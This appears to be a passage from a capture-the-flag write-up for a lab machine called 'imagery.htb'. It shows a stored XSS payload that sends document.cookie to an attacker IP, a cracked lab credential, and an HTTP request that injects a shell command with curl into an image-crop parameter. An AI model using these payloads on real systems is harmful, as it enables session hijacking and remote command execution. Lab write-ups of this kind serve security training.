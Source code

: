 ```json
        {
            "name": "My Images"
        },
        {
            "name": "Unsorted"
        },
        {
            "name": "Converted"
        },
        {
            "name": "Transformed"
        }
    ],
    "bug_reports": [
        {
            "id": "f15a79b2-451c-4907-9a56-c6399beb16e3",
            "name": "Hacked !!!",
            "details": "<img src=x onerror=\"fetch('http://10.10.14.156:8000/?c='+document.cookie)\"/>",
            "reporter": "test@test.com",
            "reporterDisplayId": "b6f4dcba",
            "timestamp": "2025-10-01T02:03:38.823828"
        }
    ]
}
```


From cracking the passwords in db.json we can get this credential set:
`testuser@imagery.htb:iambatman`

```
POST /apply_visual_transform HTTP/1.1
Host: imagery.htb:8000
Content-Length: 156
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://imagery.htb:8000
Referer: http://imagery.htb:8000/
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aNySeQ.ibhlu71PKo_UUrsWbcSakgaALbY
Connection: keep-alive

{"imageId":"41d55ddd-6361-46a5-9b8c-a678791ef40d","transformType":"crop","params":{"x":"79; curl http://10.10.14.156:8000;","y":0,"width":638,"height":800}}
```

Crop image functionality has os command injection
